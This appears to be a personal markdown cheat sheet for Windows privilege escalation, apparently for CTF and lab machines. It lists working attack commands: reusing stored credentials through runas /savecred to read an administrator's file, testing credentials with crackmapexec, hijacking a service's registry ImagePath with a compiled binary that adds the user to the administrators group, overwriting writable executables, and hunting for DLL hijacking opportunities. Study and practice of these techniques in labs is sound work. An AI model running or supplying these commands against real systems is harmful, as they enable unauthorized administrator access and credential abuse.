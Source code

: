 
### Run As

- `cmdkey /list` view stored credentials
- `c:\windows\system32\runas.exe /user:ACCESS\Administrator /savecred "C:\Windows\System32\cmd.exe /c TYPE C:\Users\Administrator\Desktop\root.txt > C:\Users\security\root.txt"` Using the user found from cmdkey run as that user run cmd /c to use command to cat out the file to a new file 

### PowerShell Run as with username and password 

1. `$pass = ConvertTo-SecureString "password" -AsPlainText -Force`
2. `$pass` expect System.SecuritySecureString 
3. `$cred = New-Object System.Management.Automation.PSCredential("Chris", $pass)
4. `$cred` expect user name and System.Security.secure String  
5. Check combinations with crackmap exec `crackmapexec 10.10.10.151 wsmb -u chris -p 'sfsfsfsd' 
6. `Invoke-Command -ComputerName Sniper -Credential $cred -ScriptBlock {}`


### Registry ACLs regsvc ACL

1. `powershell -ep bypass`
2. `Get-Acl -Path hklm:\system\CurrentControlSet\services\regsvc | fl` Check acl for this key 
3. Look for `NT Authority\Interactive` allow full control
4. copy `C:\Users\User\Desktop\Tools\Source\windows_service.c` to kali vm. You can use FTP to do this.<https://github.com/sagishahar/scripts/blob/master/windows_service.c> 
5. Modify file replace `whoami > c:\\...` with `cmd.exe /k net localgroup administrators user /add`
6. compile `w64-mingw32-gcc windows_service.c -o x.exe`
7. copy to windows computer in a temporary file path lcoation 
8. on windows execut `reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d c:\temp\x.exe /f`
9. `sc start regsvc` start service 
10. `net localgroup administrators` confirm group addition 

### Executable files overwrite 

1. open command prompt
2. `powershell -ep bypass` 
3. `. .\PowerShell.ps1`
4. `Invoke-Allchecks`
5. find writable file and replace 

Check file permissions with sysinternals accesscheck64 tool

- `.\accesschk\accesschk64.exe -wvu "\C:\program files\file permissions service"`

### Start up programs 

*Not likely on CTF*

- `icacls.exe "c:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"`

### DLL Hijacking 

- proc mon set filter `Restult is NAME NOT FOUND`
- filter `Path ends with .dll`
